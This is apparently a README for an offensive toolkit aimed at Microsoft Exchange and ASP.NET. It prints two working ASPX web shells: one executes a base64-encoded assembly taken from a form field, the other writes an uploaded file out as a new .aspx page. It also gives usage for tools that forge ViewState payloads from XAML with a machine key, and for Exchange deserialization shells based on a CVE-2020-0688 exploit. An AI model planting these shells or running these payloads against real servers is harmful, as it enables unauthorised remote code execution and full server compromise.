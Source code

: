 ```
<%@ Page Language="C#" %><%System.Reflection.Assembly.Load(Convert.FromBase64String(Request.Form["demodata"])).CreateInstance("Payload").Equals("");%>
```

webshellWrite.aspx:

```
<%@ Page Language="C#" %><%if (Request.Files.Count!=0)Request.Files[0].SaveAs(Server.MapPath("./uploadDemo.aspx"));}%>
```

---

## XamlToViewState.cs

Use to create viewstate from XAML file

Usage:

```
    <xaml path> <generator> <key>
```
eg.      

```
XamlToViewState.exe Run-Calc.xml 042A94E8 CB2721ABDAF8E9DC516D621D8B8BF13A2C9E8689A25303BF
```

## SerializeXamlToViewState.cs 

Use to create viewstate from Serialize Xaml data.

## SharpExchangeDeserializeShell-NoAuth-Fromzcgonvh.cs

## SharpExchangeDeserializeShell-NoAuth-ActivitySurrogateSelectorFromFile.cs

## SharpExchangeDeserializeShell-NoAuth-ghostfile.cs

Code from https://github.com/zcgonvh/CVE-2020-0688/blob/master/ExchangeCmd.cs

Use to test the deserializing code execution of Exchange.            
From read and write permissions of Exchange files to deserializing code execution.
You should modify the machineKey in %ExchangeInstallPath%\FrontEnd\HttpProxy\<path>\web.config to implement deserializing code execution.
`<path>`:owa or ecp
Usage:

```
    <url> <key> <path>
```

eg.    
